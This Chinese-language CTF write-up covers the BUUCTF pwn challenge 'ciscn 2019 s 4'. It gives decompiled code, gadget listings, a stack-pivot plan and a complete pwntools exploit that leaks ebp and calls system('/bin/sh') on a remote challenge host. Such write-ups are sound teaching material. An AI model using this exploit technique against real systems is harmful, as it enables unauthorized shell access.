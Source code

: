 ```yaml
---
author: 
  name: Zephyr
title: ciscn 2019 s 4
date: 2022-4-7 15:49:03
permalink: /pages/2e1547494524d1ae
tags: 
  - buuctf
  - pwn
  - StackOverflow
  - 栈迁移
---
```


# ciscn 2019 s 4

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/ciscn_2019_s_4/ciscn_s_4'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## 静态分析

主函数如下：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  init();
  puts("Welcome, my friend. What's your name?");
  vul();
  return 0;
}
```

vul函数如下：

```c
int vul()
{
  char s; // [esp+0h] [ebp-28h]

  memset(&s, 0, 0x20u);
  read(0, &s, 0x30u);
  printf("Hello, %s\n", &s);
  read(0, &s, 0x30u);
  return printf("Hello, %s\n", &s);
}
```

hack函数如下：

```c
int hack()
{
  return system("echo flag");
}
```

Gadget：

```shell
ROPgadget --binary ciscn_s_4 --only "leave|ret"
Gadgets information
============================================================
0x080484b8 : leave ; ret
0x080483a6 : ret
0x080484ce : ret 0xeac1

Unique gadgets found: 3
```



## 思路分析

1. 目前信息：

   - `vul`函数可溢出，但只能溢出2个栈帧,载荷不够
   - `plt`表内有`system`，无`/bin/sh`字符串
   - No canary found
   - NX enabled
   - No PIE
2. 思路：
   - `2`次`read`，第`1`次可以通过`printf`泄漏`ebp`地址，减去偏移后可计算出`buf`地址，第二次采用栈迁移解法，将`/bin/sh`写入`buf`处即可

## exp

```python
from pwn import *
context.terminal = ['tmux', 'splitw', '-h']
context(os='linux', arch='i386', log_level='debug')
pwnfile = '/root/pwn/buuctf/ciscn_2019_s_4/ciscn_s_4'
io = remote('node4.buuoj.cn', 27018)
# io = process(pwnfile)
elf = ELF(pwnfile)
padding = 0x28
offset = 0x38
payload = flat(['a'*(padding-1), 'b'])
io.sendafter('your name?\n', payload)
io.recvuntil('b')
leak_ebp_addr = u32(io.recv(4))
buf_addr = leak_ebp_addr-offset
success('buf_addr :'+hex(buf_addr))
system_addr = elf.plt['system']
leave_ret_addr = 0x080484b8
payload = flat([buf_addr+0x100, system_addr,0xdeadbeef, buf_addr+16, '/bin/sh\x00'])
payload = payload.ljust(padding, b'\x00')
payload += flat([buf_addr, leave_ret_addr])
io.send(payload)
io.interactive()
```